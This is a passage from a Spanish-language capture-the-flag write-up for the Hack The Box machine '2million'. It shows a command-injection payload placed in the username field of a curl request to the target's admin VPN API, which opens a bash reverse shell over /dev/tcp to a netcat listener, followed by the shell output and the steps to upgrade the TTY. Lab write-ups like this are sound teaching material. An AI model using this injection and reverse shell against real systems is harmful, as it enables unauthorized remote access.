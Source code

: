 Info:

```
www-data
```

Vamos a realizar una `reverse shell` de esta forma, antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora vamos a ejecutar lo siguiente:

```shell
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" \
  -H "Content-Type: application/json" \
  -H "Cookie: PHPSESSID=<COOKIE_SESSION>" \
  -d '{"username":"diseo; bash -c \"bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\" #"}'
```

Si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.52] from (UNKNOWN) [10.10.11.221] 52816
bash: cannot set terminal process group (1191): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ whoami
whoami
www-data
```

Vemos que ha funcionado, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user admin

Si leemos el archivo `Database.php` veremos esto:
